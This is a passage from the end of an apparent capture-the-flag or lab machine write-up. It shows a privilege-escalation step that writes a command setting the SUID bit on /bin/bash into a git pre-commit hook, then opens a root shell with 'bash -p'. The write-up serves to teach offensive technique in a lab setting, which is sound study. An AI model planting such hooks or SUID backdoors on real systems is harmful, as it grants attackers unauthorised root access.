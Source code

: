 I will simply apply suid permissions to `/bin/bash` using the following:
```bash
echo 'chmod 4755 /bin/bash' > ~/.git/hooks/pre-commit
chmod +x ~/.git/hooks/pre-commit
```
After running above... after a few seconds the script will run and we can get root by running:
```bash
/bin/bash -p #dont drop privileges from owner
```

Annnnddd that about does it for that machine! Thanks for reading.